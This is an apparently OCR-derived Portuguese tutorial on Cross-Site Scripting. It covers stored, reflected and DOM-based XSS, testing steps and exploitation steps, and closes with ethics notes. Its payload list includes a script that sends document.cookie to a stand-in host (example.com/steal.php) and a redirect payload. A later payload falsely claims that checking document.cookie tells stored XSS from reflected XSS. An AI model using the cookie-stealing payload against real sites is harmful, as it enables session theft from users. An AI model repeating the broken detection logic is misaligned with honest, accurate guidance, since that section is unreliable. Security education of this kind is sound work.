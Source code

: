 **O que é Cross-Site Scripting (XSS)?**

  A Cross-Site Scripting (XSS) é uma vulnerabilidade de segurança que permite que um atacante injete código malicioso em uma página web, permitindo que o código seja executado pelo navegador do usuário. Isso ocorre quando um site não valida adequadamente as entradas de usuário e as utiliza para gerar conteúdo dinâmico.

  


**Como funciona?**

- Aqui está um exemplo de como funciona a XSS:
- Um usuário envia uma solicitação HTTP para um site, incluindo uma entrada maliciosa, como um parâmetro de consulta ou um campo de formulário.
- O site processa a solicitação e utiliza a entrada do usuário para gerar conteúdo dinâmico, como uma página HTML.
- Se o site não validar adequadamente a entrada do usuário, o código malicioso pode ser injetado na página e executado pelo navegador do usuário.

**Tipos de XSS**

- Existem três tipos principais de XSS:
- Stored XSS: O código malicioso é armazenado no servidor e é executado quando outros usuários acessam a página.
- Reflected XSS: O código malicioso é refletido de volta para o usuário na forma de uma página HTML.
- DOM-based XSS: O código malicioso é executado no lado do cliente, modificando o DOM (Document Object Model) da página.

**Como testar se um site é vulnerável?**

- Para testar se um site é vulnerável à XSS, você pode seguir os seguintes passos:
- Identifique os pontos de entrada do site, como campos de formulário, parâmetros de consulta e cabeçalhos HTTP.
- Insira entradas maliciosas nos pontos de entrada identificados, como código JavaScript (por exemplo, <script>alert('XSS')</script>).
- Verifique se o site executa o código malicioso e se retorna alguma saída.
- Se o site executar o código malicioso, é provável que seja vulnerável à XSS.

**Como explorar essa vulnerabilidade?**

- Para explorar a vulnerabilidade de XSS, você pode seguir os seguintes passos:
- Identifique o tipo de XSS que está sendo explorado (Stored, Reflected ou DOM-based).
- Construa um payload malicioso que execute uma ação desejada (por exemplo, roubar credenciais, redirecionar para um site falso, etc.).
- Insira o payload malicioso no ponto de entrada vulnerável.
- Verifique se o payload foi executado com sucesso.

**Payloads:**

- Aqui estão alguns exemplos de payloads que podem ser utilizados para explorar a vulnerabilidade de XSS:
- **<script>alert('XSS')</script>**: Executa um alerta JavaScript com a mensagem "XSS".
- **<script>document.location='http://example.com'</script>**: Redireciona o usuário para um site falso.
- **<script>var img = new Image(); img.src = '**[**http://example.com/steal.php?cookie=**](http://example.com/steal.php?cookie=)**' + document.cookie;</script>**: Rouba as credenciais do usuário e envia para um servidor remoto.

**Payload para identificar o tipo de XSS:**

- Aqui está um exemplo de payload que pode ser utilizado para identificar o tipo de XSS:



  1<script>
2 if (document.cookie) {
3 alert('Stored XSS');
4 } else {
5 alert('Reflected XSS ou DOM-based XSS');
6 }
7</script>

  

  Ou:

  

  [**http://example.com/index.php?**](http://.)q=<script>%20if%20(document.cookie)%20{%20alert(%27Stored%20XSS%27);%20}%20else%20{%20alert(%27Reflected%20XSS%20ou%20DOM-based%20XSS%27);%20}%20</script>




  Este payload verifica se o código malicioso é armazenado no servidor (Stored XSS) ou se é refletido de volta para o usuário (Reflected XSS ou DOM-based XSS).


**Observações:**

- É importante lembrar que a exploração de vulnerabilidades de segurança deve ser feita de forma ética e responsável.
- É fundamental respeitar as leis e regulamentações aplicáveis e não causar danos a terceiros.
- É recomendável que os testes de segurança sejam realizados em ambientes controlados e com a permissão dos proprietários do site.

